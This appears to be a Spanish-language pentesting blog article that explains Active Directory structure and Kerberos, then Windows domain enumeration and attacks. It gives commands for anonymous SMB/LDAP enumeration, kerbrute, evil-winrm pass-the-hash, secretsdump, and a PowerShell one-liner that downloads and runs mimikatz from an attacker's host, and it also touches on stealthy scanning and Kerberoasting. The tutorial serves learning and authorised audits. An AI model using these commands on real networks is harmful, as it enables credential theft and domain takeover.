




En este artículo nos adentraremos en el mundo del AD (Active Directory). Veremos en detalle qué es, cómo enumerarlo, técnicas y herramientas para hacernos con el administrador.

# ¿Qué es un entorno AD?

El directorio activo es la columna vertebral de la identidad en entornos corporativos Windows, encargado de almacenar información sobre los objetos de la red y ponerla a disposición de los usuarios y administradores. Se encarga de gestionar las autenticaciones y de ordenar qué usuarios o grupos tienen acceso a distinta información almacenada. Cabe aclarar Qué es una estructura completamente jerárquica, ya que se construye desde el nivel más alto y general hasta el nivel más bajo y específico.

### Jerarquía

```
 +-------------------------- FOREST --------------------------+
| +--------------------- DOMAIN (example.com) -------------+ |
| | +-- FSMO Roles (Schema, Domain, RID, PDC, Infrastructure)
| | |
| | +-- Organizational Units (OU)
| | | +-- OU=Admins
| | | +-- OU=Servers
| | | +-- OU=Workstations
| | |
| | +-- Domain Controllers (DCs)
| | | +-- DC1 (replica)
| | | +-- DC2 (global catalog)
| | |
| | +-- Users, Computers, Groups
| | | +-- Users: alice, bob
| | | +-- Groups: Domain Admins, IT_Support
| | |
| | +-- Group Policy Objects (GPOs)
| | |
| | +-- SPNs / Service Accounts
| | |
| +---------------------------------------------------------+ |
|
| +-- Trusts (forest/domain trusts) <-- relaciones entre dominios
+------------------------------------------------------------------+
```

- **1. El bosque (FOREST)**

En el nivel superior de la jerarquía encontramos el **Bosque**. Representa la colección de uno o más árboles. Los dominios dentro de un bosque comparten un **esquema**, que define a todos los objetos, y un **catálogo global**, Qué es un controlador de dominio que almacena una réplica parcial de todos los objetos del bosque.

- **2. El árbol (Tree) y Dominio (Domain)**

El **árbol** es una colección de dominios que comparten un **espacio de nombres continuo**. *(Te estarás preguntando qué es eso: en resumen, se refiere a una estructura de nombres jerárquica e ininterrumpida basada en DNS.)*
¿Y cuál es la función del **dominio**? Es la **unidad administrativa y de seguridad central** dentro del árbol. Contiene los objetos (usuarios, equipos, grupos, etc.) y establece los límites para la aplicación de políticas y la administración de la seguridad.

- **3. Unidades Organizativas**

Las **Unidades Organizativas (OU)** son contenedores utilizados dentro de un dominio para **organizar los objetos** (usuarios, grupos y equipos). Estas OUs son cruciales para la jerarquía, ya que permiten **delegar la administración**, otorgando a determinados administradores la capacidad de gestionar ciertos objetos dentro de la OU.

Además, son responsables de **aplicar las políticas de Grupo (GPO)** a usuarios o equipos específicos. Esto facilita que una política establecida en una OU superior **afecte automáticamente** a todas las OUs subordinadas.

- **4. Objetos**

Los **objetos** son los elementos de más bajo nivel. Contienen información como cuentas de usuario, cuentas de equipo o grupos de seguridad.

En conjunto, esta jerarquía permite que Active Directory mantenga una estructura lógica, escalable y segura, donde cada nivel cumple una función específica en la gestión y el control de los recursos del entorno.

### Componentes y servicios clave

Antes de empezar a ver técnicas sobre cómo atacar un AD, tenemos que reconocer cuáles son sus partes internas y de qué se encarga cada una de ellas.

- **Controladores de dominio (DC)**

El **Domain Controller (DC)** es el servidor central y crítico dentro de un AD, ya que actúa como **repositorio de autoridad** para todo el dominio. Su función principal es **almacenar y gestionar los Active Directory Domain Services (AD DS)**; esto quiere decir que contiene la **base de datos completa del directorio**, la cual contiene información detallada de todos los objetos de red: usuarios, grupos y equipos. Es el eje principal de la seguridad, ya que se encarga de la **autenticación** de cualquier usuario o dispositivo que intente acceder a los recursos del dominio.

- **Kerberos**

Kerberos es un protocolo de autenticación de red basado en criptografía simétrica, diseñado para verificar la identidad de usuarios y servicios a través de redes que se consideran no seguras. El protocolo se basa en un tercero de confianza centralizado (de ahí el nombre: Kerberos, el perro de tres cabezas de la mitología griega) y en el uso de **tickets** para probar la identidad sin enviar contraseñas en texto claro a través de la red.



En la imagen podemos observar cómo funciona el protocolo de autenticación y obtención de tickets entre el cliente y el DC (en este caso actúa como Key Distribution Center).

- El **cliente** envía la solicitud al _Authentication Server (AS)_ del KDC indicando quién es.
- El **AS** responde con un _TGT (Ticket Granting Ticket)_ cifrado con la clave del usuario y la clave del KDC. Ahora el cliente podrá solicitar otros tickets sin tener que proporcionar la contraseña.
- Con un TGT en la mano, el cliente pregunta al _TGS (Ticket Granting Server)_ si puede acceder al servicio que quiere usar.
- El TGS valida el TGT y responde con un _ST (Service Ticket)_, un ticket especial cifrado con la clave del servidor que provee el servicio.
- El cliente envía una petición al Hosting Server junto con el ST. En este paso el servidor usa su clave secreta para descifrar el ticket y validar la autenticación.
- Si todo esto sale bien y el Hosting Server nos considera fiables, nos concederá el acceso.

Esto hace que en ningún momento viaje la contraseña en texto claro por la red, aunque existen formas de obtener estos tickets y herramientas que facilitan su generación. Puede parecer confuso, pero repasándolo un par de veces entenderás los conceptos y por qué se realizan estas solicitudes.

Un pequeño detalle a destacar es el puerto que utiliza (88 o 464).

- **LDAP**

**Lightweight Directory Access Protocol (LDAP)** es un protocolo estándar de red diseñado para acceder, gestionar y consultar la información de un directorio centralizado a través de una red TCP/IP. Es el lenguaje de consulta utilizado por clientes y aplicaciones para leer y escribir información del directorio activo. Hay una herramienta llamada `ldapdomaindump` que utilizo mucho cuando obtengo una credencial; descarga muchos archivos y dentro de ellos hay un `.html` que me encanta, porque monto un servidor web con Python y puedo listar de manera cómoda los grupos y miembros. Más adelante lo veremos.

- **SYSVOL**

Por lo general, a la hora de auditar un AD solemos pasar por alto este recurso compartido, que se utiliza para mantener la consistencia operativa en toda la red, distribuyendo los archivos y reglas por todo el dominio. Pero en ocasiones almacena información sensible; como última opción no estaría de más revisarlo, quizá encuentres una credencial expuesta u otra información crítica.

Ya que entendemos los puntos basicos de un directorio activo empecemos con la enumeración.

## enumeración

¿Qué buscamos con la enumeraacion? Buscamos recopilar todo tipo de información dentro del AD, usuarios, servidores, permisos, configuraciones, políticas TODO. Tenemos que ser sabuesos, con esto conseguiremos ver como se estructura, quiénes pertenecen a x grupos, conseguir credenciales, así que empecemos.

Para empezar con nuestra enumeración empezaremos con un escaneo de puertos con la herramienta nmap, en lo writeups puedes ver como se usa. Esto nos listara los puertos que estan abiertos, ¿Como sabreos que estamos frente a un directorio activo? Bastante sencillo, si vemos estos puerto `88,135,389,445,636,3268,3269` lo más probable es que nos estemos enfrentando a un AD.

### Sin credenciales.

Por lo general en auditorias nos dan unas credenciales sin privilegios para escalar, pero en ocasiones no nos dan absolutamente nada, tranquilidad, no pasa nada, empecemos viendo que hay en los archivos compartidos. Yo por lo general suelo listar los recursos compartidos con Netexe, que basicamente es la navaja suiza para el pentesting en redes internas ya que combina multiples funcionalidades de diferentes herramientas en una sola utilidad. Para listar recursos compartidos.

```bash
nxc smb <IP> -u '' -p '' --shares 
```
Esto intentará listar de forma anónima los recursos compartidos. Si lo logra, podemos empezar a buscar en ellos con SMBMap. Al final del artículo dejo un diccionario con las herramientas que voy a mencionar y sus repositorios.

Para listar usuarios podemos intentar lo de manera anonima.

```bash
nxc smb <IP> -u '' -p '' -users
```

Haciendo una enumeración scriptiando en bash, podemos hacernos una lista de usuarios validos. Puede ver ejemplos en varias de las maquinas que hemos resulto. Podríamos intentar un ataque de fuerza bruta
Podriamos también hacer una consulta anonima al LDAP

```bash
ldapsearch -x -H ldap://<ip> -b "DC=<nombre del dominio>,DC=local"
```
Cuando se llega a estos extremos tienes que tener vista de aguila. Porque cualquier entrada anomala que veas puede ser un vector de ataque, en [cascade](https://atr4x.vercel.app/es/guides/medium/cascade/) puedes ver un ejemplo.

Si queremos descubur hosts activos dentro del sistema de una manera silenciosa, aca hay un pequeño [Cheat Sheet](https://commandmasters.com/commands/fping-common/) del uso de esta herramienta.

```bash
fping -q -a -g 192.168.1.1 192.168.1.254
```
Esto nos devolverá una lista (-g) de los hosts activos (-a) de manera silencios (-q).

Siempre intento hacer enumeraciones silenciosa para que no salten las alarmas y llegue la policia xD jajajjaa así que al hacer el escaneo con nmap al igual que con fping con l a-q le pasremos el parametro -sS para que haga un escaneo SYN, este tipo de escaneo no completa el handshake TCP estandar. Esto evitara en gran medida que salten las alarmas pero es posible que aun salte alguna.

Como ultima opcion usaria kerbrute para listar usuarios, esto no lo suelo hacer y que suele arrojar un monton de falsos positivos y por lo general es demasiado ruidos y salta todas las alarmas y se arma.

```bash
./kerbrute userenum --dc <IP> -d evil.corp users.txt
```

### Con credenciales.

Una vez hemos obtenido credenciales el abanico de posibilidades es mucho más amplio. Cabe aclarar que si el dominio está en un entorno de virtual hosting hay que proceder de otra manera: analizar la web que está corriendo, los virtual hosts, y otros vectores asociados. En este artículo nos centraremos en auditar un Active Directory sin virtual hosting.

Ya hemos visto en la enumeración sin credenciales como listar recursos compartidos de forma anonima, pero con una credencial quiza consigas ver algo más debido a que ese usuario tiene permisos para ello.
```bash
nxc smb <IP> -u '<user>' -p '<Password>'
```

también podemos confirmar si tenemos tenemos acceso remoto.

```bash
nxc winrm <IP> -u '<user>' -p '<Password>'
```
Si recibimos un **(Pwn3d!)** es que tenemos acceso remoto y podremos conectarnos via Evil-WinRm.

```bash
evil-winrm <IP> -u '<user>' -p '<Password>'
```

Evil-WinRm también nos permite hacer pass the hash, que no es más que utilizar el hash NTLM sin tener que usar la contraseña. Por lo general en entornos empresariales es mucho más facil hacernos con hashes

```bash
evil-winrm <IP> -u '<user>' -H '<El Hash>'
```

Ya dentro podriamos usar WinPeas y distintas tecnicas de escalada de privilegios, pero aun no hemos llegado a ese momento. Sigamos enumerando.

Para ver los usuarios y a que grupos pertenecen, siempre uso ldapdomaindump.

```bash
ldapdomaindump <IP> -u 'domaain.local\user' -p 'password' -n <IP>
```


Esto es lo que nos ha devuelto, son un monton de archivitos pero el que nos interesa es el `domain_users.html`. Esto lo podremos ver montando un servidor web con python, justo en el directorio donde ejecutamos el ldapdomaindump.

```python
python3 -m http.server 80
```



Siempre miro quiénes son los miembros que pertenecen al grupo _"Remote Management Users"_, esto indica que podemos administrar un equipo de forma remota. Siempre apuntaremos a estos usuarios.

Tenemos una herramienta muy buena para este proceso de enumeración llamda rpcclient, que como su nombre indica interactua con el servicio RPC Windows.

- enumeración de Usuarios.

```bash
rpcclient -U "user%password" <IP> -c "enumdomusers"   
```
Cuando enumeramos usuarios nos devolvera algo como.

**user:[Atr4x] rid:[0x888]**

El rid es el numero unico y final en un identificador de segurida. Sirve para diferenciar a cada usuario, grupo o máquina dentro de un dominio.

- enumeración de Grupos.

```bash
rpcclient -U "user%password" <IP> -c "enumdomgrous"
```
Al igual que enumerando usuarios, al enumerar grupos, tendremos el mismo formato. Pero ahora sabiendo el RID podemos solicitar información más precisa del grupo o del usuario que deciemos.

GRUPOS
```bash
rpcclient -U "user%password" <IP> -c "querygroup 0x644"  
```
USUARIOS
```bash
rpcclient -U "user%password" <IP> -c "queryuser 0x644" 
```
Estos son los comando basicos, esta herramienta al igual que las anteriores nos daria cada una para un articulo.

### BLoodHound



En la maquina [cascade](https://atr4x.vercel.app/es/guides/medium/certified/) explico cómo instalarla; aquí voy a hacer un enfoque más teórico sobre qué es y cómo funciona. Para ver cómo se usa, mira las máquinas: la mayoría de las medium son AD. En ellas me inspiré para hacer este artículo.

##### ¿Qué es?

Es una herramienta de mapeo de rutas de ataque, puedes hacer mapeos desde tu usuario hasta el administrador y te va indicando perfectamente como irete moviendo lateralmente.

#### ¿Como funciona?

BloodHound es una herramienta de ciberseguridad excepcionalmente poderosa que se utiliza para visualizar y analizar las relaciones complejas dentro de un entorno de Active Directory (AD). 🐺

Es esencialmente una herramienta de mapeo de rutas de ataque que ayuda a los pentesters (o atacantes) a encontrar las formas más eficientes de escalar privilegios y obtener el control total del dominio.

¿Cómo funciona BloodHound?

BloodHound no ataca directamente el sistema; en su lugar, recopila y analiza información. Trabaja en dos partes principales:

1. Recolección de Datos (El Mapeo)

Se utiliza un ingestor de datos (llamado SharpHound para Windows) para recopilar la información del Directorio Activo. Esta herramienta se ejecuta en el dominio y extrae relaciones y atributos críticos, como:

 Usuarios y sus membresías a grupos.

 Computadoras y quién tiene permisos de administrador local sobre ellas.

 Sesiones activas (qué usuarios están conectados a qué máquinas).

 Objetos de confianza (Trusts) entre dominios.

 Relaciones de GPO (Directivas de Grupo).

2. Análisis y Visualización (La Ruta)

La información recopilada se carga en la interfaz gráfica de BloodHound (que utiliza la base de datos de grafos Neo4j). Esta interfaz permite al usuario:

 Visualizar un grafo: Muestra usuarios, grupos y máquinas como nodos y las relaciones de permisos como bordes o flechas.

 Encontrar Rutas Críticas: El valor principal de BloodHound son sus consultas preconstruidas (llamadas "pre-built queries") que identifican la ruta más corta (o la más eficiente) desde un usuario con bajos privilegios hasta un objetivo de alto valor, como el grupo "Domain Admins" o la cuenta del controlador de dominio.

##### Relevancia en Pentesting

Para un pentester o un Red Team, BloodHound es indispensable porque:

 Reduce el Tiempo de Ataque: Evita que el atacante "vague" por la red. Le dice exactamente qué máquina comprometer para obtener acceso al siguiente nivel de privilegio, a menudo usando ataques como movimiento lateral o delegación descontrolada.

 Identifica Riesgos no Obvios: Revela caminos indirectos donde un usuario normal tiene inesperadamente un permiso de administrador local sobre un servidor crítico.

 Genera Informes de Mitigación: En la auditoría de seguridad, ayuda a los defensores (Blue Team) a visualizar y corregir las configuraciones erróneas de permisos que crean estas rutas de ataque.

Le di tanta importancia a esta herramienta porque considero que, es super necesario aprender a usar la, te facilita de una manera excepcional la escalda de privilegios, te da paso a paso de lo que tienes que hacer y más que nada es como que vas aprendiendo todo lo que necesitas saber, entiendes como funcionan los hash los TGT. Me parece indispensale saber utilizar la.

## Explotación

Vale hemos visto lo principal e importante de como poder enumerar un AD, pero ¿como lo podemos explotar?.Estas son algunas de las **Tecnicas de explotacion**.

##### Credential Dumping

Imagina que ya lograste entrar en la oficina de seguridad de una empresa, pero solo estás en la recepción. El Credential Dumping es esa movida crucial donde buscas y le robas las llaves (las contraseñas o hashes) a los empleados que están adentro. Estas son las herramientas que podemos usas para esta tecnica

1. Impacket-secretsdump

```bash
secretsdump.py -sam <SAM> -system <SYSTEM> [-security <SECURITY>] LOCAL
```
Para este ataque, tienes que tener el archivo SAM y el LOCAL, si no no va a ser posible. Puedes ver un ejemplo practico en la maquina [Freelancer](https://atr4x.vercel.app/es/guides/hard/freelancer/#impacket-secretsdump) que sin duda es una de las más dificiles que he echo.

2. Mimikatz

Sin duda es una de las herramientas más infames y poderosas que existe en el mundo de la ciberseguridad.Es LA herramienta predilecta para el credential dumping. Tiene varios problemas, al ser tan utilizada,el defender lo puede detectar muy facilmente, ni usando nuestro oneLiner de confianza `IEX(New-Object Net.WebClient).downloadString('http://your-ip/mimikatz.exe')` es posible que no funcione. así que podemos usar tecnicas de evasion de antivirus. más adelante haremos un articulo de esto. es un tema muy interesante.

#### Kerberoasting

El Kerberoasting es un ataque de robo de contraseñas de cuentas de servicio, ideal para escalar privilegios en una red Windows. 🏹

Imagina que quieres entrar a la sala de servidores, pero solo tienes la tarjeta de acceso de un empleado de bajo nivel. Sabes que dentro hay muchas Cuentas de Servicio (usuarios especiales, como el de la base de datos o el del servidor web) que tienen acceso total a esos servidores críticos.

El ataque funciona así, de manera sigilosa y sin generar ruido:

La Petición Engañosa: El atacante, usando su acceso de bajo nivel, le pide al jefe de seguridad (el Controlador de Dominio o DC) un ticket de acceso para una de esas Cuentas de Servicio. La solicitud es totalmente normal y legal.

- La Trampa en el Ticket: El DC, sin sospechar nada, crea el ticket y lo cifra usando la contraseña de la Cuenta de Servicio. Luego se lo envía al atacante.

- El Robo Fuera de Línea: El atacante roba ese ticket cifrado y se lo lleva a su propia computadora para atacarlo.

- El Descifrado (Roasting): Como el ticket está cifrado con la contraseña de la Cuenta de Servicio, el atacante usa programas muy rápidos (como Hashcat) para adivinar la contraseña real.

- El Acceso: Si la Cuenta de Servicio tenía una contraseña débil (lo cual es muy común en servicios antiguos), el atacante la obtiene en texto claro. ¡Felicidades! Ahora tiene una llave maestra para acceder al servidor de base de datos o a cualquier recurso que ese servicio gestionaba, y con ello, puede moverse por toda la red.

#### Pass-The-Hash

El ataque Pass-the-Hash (PtH), o "Pasar el Hash," es una técnica de movimiento lateral donde un atacante se autentica en un sistema remoto usando el hash de una contraseña en lugar de la contraseña en texto claro. Como vimos en el ejemplo de la enumeración.

## Reflexion

Este documento es una pequeña introduccion al mundo de la auditorio en AD, se que aun esta incompleto pero lo ire rellenando con el tiempo. Creo Qué es imprescindible entender como se estructura el AD y entender en profundidad lo que haces antes de ponerte a mandar comandos y ya esta. Espero que les sea de gran ayuda si estan empezando en el mundo del Hack.

